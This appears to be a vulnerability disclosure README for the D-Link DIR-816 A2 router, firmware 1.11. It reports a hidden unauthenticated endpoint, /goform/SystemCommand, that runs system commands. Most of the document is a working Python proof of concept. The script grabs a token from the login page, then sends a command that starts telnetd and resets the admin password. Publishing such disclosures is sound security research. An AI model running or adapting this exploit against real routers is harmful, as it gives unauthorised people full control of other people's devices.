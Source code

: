 # D-Link DIR-816 A2 Remote Command Execute

**Vender**：D-Link

**Firmware version**: 1.11

**Hardware version**: DIR-816 A2

**Exploit Author**: lbp@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

Attack can use a hidden API URL "/goform/SystemCommand" to execute system command without authentication.

## POC

![](poc.png)

Change password and open telnetd:
```python
# !/usr/bin/env python2
# coding=utf-8
import requests


def get_token_id(target_ip):
    """

    :param target_ip: router ip address.
    :return: tokenid
    """
    url = "http://{}/dir_login.asp".format(target_ip)
    rsp = requests.get(url, allow_redirects=False)
    rsp_list = rsp.text.split()
    tokenid = None
    for i in range(len(rsp_list)):
        if 'name="tokenid"' in rsp_list[i]:
            tokenid = int(rsp_list[i + 1].split('=')[1][1:-1])
            break
    return tokenid


def send_from_request(target_ip, from_name, data):
    """

    :param target_ip: router ip address.
    :param from_name: from_name to request
    :param data: post data in json format.
    :return:
    """
    url = "http://{}/goform/{}".format(target_ip, from_name)
    rsp = requests.post(url, data=data, allow_redirects=False, timeout=1)
    return rsp.text


if __name__ == '__main__':
    target_ip = "192.168.0.1"
    token_id = get_token_id(target_ip)
    if token_id:
        print("token_id: %s" % token_id)
        command = "telnetd & chpasswd.sh Admin 123456"  # start telnet
        from_name = "SystemCommand"
        from_data = {
            "command": command,
            "tokenid": token_id
        }
        send_from_request(target_ip, from_name, from_data)

```
